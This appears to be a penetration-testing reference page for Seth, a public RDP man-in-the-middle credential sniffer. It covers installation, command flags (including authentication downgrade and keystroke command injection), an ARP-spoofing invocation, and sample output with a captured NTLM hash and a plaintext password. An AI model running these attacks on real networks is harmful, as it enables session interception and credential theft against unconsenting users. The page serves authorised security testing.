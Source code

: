 ```yaml
---
title : "Seth"
# pre : ' '
description : "RDP credential sniffer - Man in the Middle RDP"
date : 2020-12-01T08:18:42+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Seth

RDP credential sniffer - Man in the Middle RDP

### Installation

Requirements:

```plain
sudo apt install dsniff tcpdump
```

```plain
git clone https://github.com/SySS-Research/Seth.git
```

### Usage

```plain
seth.py [-h] [-d] [-f] [-p LISTEN_PORT] [-b BIND_IP] [-g {0,1,3,11}]
               [-j INJECT] -c CERTFILE -k KEYFILE
               target_host [target_port]
```

### Flags

```plain
RDP credential sniffer -- Adrian Vollmer, SySS GmbH 2017

positional arguments:
  target_host           target host of the RDP service
  target_port           TCP port of the target RDP service (default 3389)

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           show debug information
  -f, --fake-server     perform a 'fake server' attack
  -p LISTEN_PORT, --listen-port LISTEN_PORT
                        TCP port to listen on (default 3389)
  -b BIND_IP, --bind-ip BIND_IP
                        IP address to bind the fake service to (default all)
  -g {0,1,3,11}, --downgrade {0,1,3,11}
                        downgrade the authentication protocol to this (default
                        3)
  -j INJECT, --inject INJECT
                        command to execute via key press event injection
  -c CERTFILE, --certfile CERTFILE
                        path to the certificate file
  -k KEYFILE, --keyfile KEYFILE
                        path to the key file
```

### Examples

#### Start MiTM attack

| Attacker IP | IP to ARP spoof for | Target RDP to connect to |
| :-: | :-: | :-: |
10.10.10.10 | 10.10.10.15 | 10.10.10.20

```plain
./seth.sh eth0 10.10.10.{10,15,20}
```

```plain
$ sudo ./seth.sh eth0 10.10.10.{10,15,20}
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[...SNIP...]
[*] Cleaning up...
[*] Done
```

#### Capture of plaintext credentials

```plain
sudo ./seth.sh enp0s31f6 10.10.10.5 10.10.10.7 10.10.10.10
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 10.10.10.10
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 10.10.10.7:53063
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
johndo@example.com:::7c70ee2cd148b341:ee85ef730780002e00370030000000000000000000
Tamper with NTLM response
Downgrading CredSSP
Connection lost ([Errno 104] Connection reset by peer)
[...REDACTED...]
Connection received from 10.10.10.7:53067
Warning: RC4 not available on client, attack might not work
Enable SSL
Listening for new connection
'NoneType' object has no attribute 'getsockopt'
Hiding forged protocol request from client
.\johndo@example.com:Welkom1234
[*] Cleaning up...
[*] Done
```

#### Example capture of hashes

![Example](images/example.png)

### URL list

* [GitHub.com - Seth](https://github.com/SySS-Research/Seth)
